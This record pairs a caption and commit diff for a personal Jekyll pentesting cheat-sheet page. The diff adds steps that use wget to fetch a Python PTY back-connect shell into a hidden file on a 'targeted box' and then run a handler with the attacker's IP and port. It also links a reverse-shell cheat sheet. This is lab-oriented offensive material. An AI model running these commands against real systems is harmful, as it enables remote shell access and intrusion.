

Before and after one commit to Mushi-mushi/mushi-mushi.github.io, a Jekyll site: the page built from cheat/index.markdown, in a window 1280 px wide and 900 px high, scrolled down 1036 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update index.markdown

```diff
--- a/cheat/index.markdown
+++ b/cheat/index.markdown
@@ -58,12 +58,23 @@ export TERM=xterm256-color
 stty rows number_of_row columns number_of_columns
 {% endhighlight %}
 
+Another option is to directly push a python pty shell to the targeted box:
+{% highlight bash%}
+wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_backconnect.py -o /dev/shm/.shell.py
+{% endhighlight %}
+configure the shell with the correct IP and port then get the shell handler
+{% highlight bash%}
+wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_shell_handler.py -o /root/HTB/handler.py
+python handler.py -b YourIP:Youropenedport
+{% endhighlight %}
+<sup>Shell scripts from [infodox][link11]</sup>
+
 Enjoy!
 
 [Back to the top](#header)
 
-Finding binaries that the systems package manager does not recognize
-====================================================================
+Finding non standard binaries
+==============================
 {% highlight bash%}
 for i in $(ls /sbin/*); do echo $i; done
 for i in $(ls /sbin/*); do dpkg --search $i; done
@@ -98,3 +109,4 @@ Interesting Links:
 [link8]:https://netsec.ws/?p=376
 [link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
 [link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
+[link11]:https://github.com/infodox/python-pty-shells
```
